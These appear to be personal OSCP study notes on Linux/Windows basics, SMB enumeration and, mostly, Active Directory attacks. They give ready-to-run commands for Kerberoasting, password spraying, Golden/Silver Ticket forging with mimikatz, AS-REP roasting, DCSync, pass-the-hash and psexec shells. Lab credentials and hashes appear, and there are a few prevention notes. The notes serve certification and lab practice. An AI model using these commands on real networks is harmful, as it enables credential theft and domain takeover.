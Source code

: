 # OSCP


File Management:-

	Linux:-
		
		ls -la : show hidden files & size & permissions.
		lsattr : list files attribute and if you can append even if you don't have write permission.
		chattr : change files attribute (a:append,e:can't change,I:can't delete or move,etc..).	
		ln originFile copyFile : to make hard link of originFile to copyFile
		ln -s sourceFile copyFile : to make a soft link(shortcut in windows) to sourceFile, you will find -i when you ls -la copyFile.




	Windows:-
	
		dir /(A,S,Q): display files attributes,files in directories & sub directories,files owner.
		
Privilege Escalation:-

	privilege escalation awsome scripts:-
		1-WinPEAS
		2-LinPEAS
	LinEnum
	WinEnum
	Windows-Exploit-Suggestor

SMB Enumeration:-

	enum4linux,nmap to get domain controller + user 
	smbmap -H 10.10.11.152 -u 'guest' -d Timelapse.htb     --- to search for readable/writable shares you can use -R for recursive 
	smbclient //10.10.11.152/Shares -U Timelapse.htb/guest  --- to connect where Timelapse.htb is the domain controller and guest is the user
	
	
Password Attacks

	fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip	--- to crack zip files


General Information:-

	PFX files contains certificate and private key which can be extracted using openssl
	evil-winrm -k private.key -c public.key -i 10.10.11.152 -S   ---- to connect to winrm on port 5986 with ssl 
	example of evil-winrm to hack active directory:
			*Evil-WinRM* PS C:\users> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
			*Evil-WinRM* PS C:\users> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
			*Evil-WinRM* PS C:\users> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
			invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
			invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -properties ms-mcs-admpwd,ms-mcs-admpwdexpirationtime}
	

	
Active Directory Attacks:-


	Tools:-
		1-Bloodhound-sharphound
		2-Impacket
			*secretsdump.py
			*psexec.py (system)
			*GetUserSPNs.py
			*wmiexec.py (adminisrator)
		3-Powerview
		4-Rubeus
		5-crackmapexec
		6-kerbrute
		7-mimikatz
		
	Kerberoasting: Post exploitation attack, require a valid user (TGT) to request TGS from a service account with SPN and crack the TGS to get the credentials out of it (TGS is encrypted with the NTLM hash of the SPN account password).
		Tools that can be used:-
			1-Rubeus
			2-Impacket GetUserSPNs.py
			3-Powershell scripts, etc..
		Steps:-
			impacket-GetUserSPNs test.int/yazan:'yazan' -dc-ip 192.168.100.200   //serach for SPN that can help us in escilating priv.
			impacket-GetUserSPNs test.int/yazan:'yazan' -dc-ip 192.168.100.200 -request -outputfile output.hash // save the hash
			hashcat --force -m 13100 -a 0 output.hash rockyou.txt //dictionary attack to get the password 
		
		Prevention:-
			Use strong and complex password or host based password insted of user based password.
			
	Default Settings -Add-Computer
	
		Configration:-
			ms-DS-MachineAccountQuota attribute (10 by default)
			add workstation to the domain permission (enabled by default)
		Steps:-
			crackmapexec smb 192.168.200.1/30 //search for machines
			crackmapexec smb 192.168.200.1/30 -u yazan -p 'yazan' -d domain.ini //search for the domain controller 
			impacket-addcomputer -dc-ip 192.168.100.200 domain.iti/yazan:'yazan' -computer-name Computer1$ -computer-password yazan //create a computer account the name of it must containt $ at the end 
		Prevention:-
			from the configuration give it only for the needed staff.
	
	Password spraying:-
		Tools:-
			1-Metasploit- smb_login
			2-crackmapexec
		Steps:-
			impacket-GetADUsers domain.ini/yazan:'yazan' -dc-ip 192.168.100.200 > user.txt //get all users in domain
			crackmapexec smb 192.168.200.100 -u users.txt -p yazan // start the attack untill you find a user with the specified password
	Golden Ticket:-
		
		The Golden Ticket is the Kerberos authentication token for the KRBTGT account, a special hidden account with the job of encrypting all the authentication tokens for the DC. That Golden Ticket can then use a pass-the-hash technique to log into any account, allowing attackers to move around unnoticed inside the network
		
		Steps:-
			
			lsadump::dcsync /user:DOMAIN\Krbtgt
			kerberos::golden /domain:domain.com /sid:S-1-5-21-5840559-2756745051-1363507867 /aes256:ffa8bd983a5a03618bdf577c2d79a467265f140ba339b89cc0a9c1bfdb4747f5 /user:NonExistentUser /ticket:GoldenTicket.kirbi /ptt

			for more details https://www.netwrix.com/how_golden_ticket_attack_works.html
	
	Silver Ticket:-
	
		Silver Ticket only enables an attacker to forge ticket-granting service (TGS) tickets for specific services. TGS tickets are encrypted with the password hash for the service; therefore, if an adversary steals the hash for a service account, they can mint TGS tickets for that service.
		Steps:-
			PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit //or below
			privilege::debug //run in debug mode
			sekurlsa::logonpasswords //view passwords in memory
			kerberos::golden /user:NonExistentUser /domain:domain.com /sid:S-1-5-21-5840559-2756745051-1363507867 /rc4:8fbe632c51039f92c21bcef456b31f2b /target:FileServer1.domain.com /service:cifs /ptt
			misc::cmd
			check https://www.netwrix.com/silver_ticket_attack_forged_service_tickets.html for more details.
			
	AS-REP Roasting:-
	
		attack against Kerberos for user accounts that do not require preauthentication,During preauthentication, a user will enter their password which will be used to encrypt a timestamp and then the domain controller will attempt to decrypt it and validate that the right password was used and that it is not replaying a previous request.  From there, the TGT will be issued for the user to use for future authentication.  If preauthentication is disabled, an attacker could request authentication data for any user and the DC would return an encrypted TGT that can be brute-forced offline.  
		
		Steps:-
			(Method 1)
			.\Rubeus.exe asreproast  //search for users hash
			$krb5asrep$spot@offense.local:hash // user hash found
			$krb5asrep$23$spot@offense.local:hash //insert 23 after the $krb5asrep$
			hashcat -m18200 '$krb5asrep$23$spot@offense.local:hash -a 3 /usr/share/wordlists/rockyou.txt
			(Method 2)
			Kerbrute
			(Method 3 from kali, you need to have username)
			GetNPUsers.py domain.local/administrator
			
![image](https://user-images.githubusercontent.com/91881471/174433005-d10ed507-c66c-4760-9eff-4a1c9099ee7e.png)


	Requesting RC4 Encrypted Ticket:-
	
		As mentioned in the beginning, it's still possible to request an RC4 ecnrypted ticket (if RC4 is not disabled in the environment, which does not seem to be common yet):
		
		Steps:-
			F:\Rubeus\Rubeus.exe kerberoast /tgtdeleg
			then crack it
	Enumeration:-
		
		crackmapexec smb 10.10.10.10 --shares -u '' -p ''
		net user /domain user_name
	DCSync attack:-
	
		telling the domain contrller that you are a domain controller trying to replicate the hashes of the users.
		
		Steps:-
			(Method 1)
			Mimikatz
			(Method 2)
			impacket-secretsdump.py domain.local/administartor@10.10.10.10
			
	Pass-the-hash attack:-
	
		crackmapexec smb 10.10.10.10 -u administrator -H hash
		
	Gaining shell:-
	
		impacket-psexec.py domain.local/administrator@10.10.10.10 -H hash 
	
